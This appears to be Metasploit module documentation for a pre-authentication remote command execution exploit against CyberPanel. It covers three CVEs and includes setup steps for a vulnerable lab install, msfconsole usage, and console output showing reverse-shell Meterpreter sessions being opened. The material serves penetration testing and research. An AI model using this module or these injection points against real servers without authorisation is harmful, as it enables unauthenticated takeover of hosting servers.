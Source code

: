 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel (aka Cyber Panel) before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
   =>  CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: ptcsu2Gumssya7hVSDpZXsPse0wu0kCoW4BsEMrXj0rmeX4CvsUwPDPbXNQIJXgJ
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.16:48380) at 2024-10-31 22:01:34 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions

Exploit actions:

       Name            Description
       ----            -----------
   =>  CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: kbMIa2vWhrrlbTjMr1HVvX4IyecR3ENVkQwrJj7qZcXqAwYvo7a6d7MBQUxYnqaX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:48384) at 2024-10-31 22:02:36 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
   =>  CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: VRu68HihQzQ0UcDjDhwwGyQV4PjXLkcDzCGf0fuRGPR6f3DO4oEcZmIiuGCXkubX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:38878) at 2024-11-01 08:42:53 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
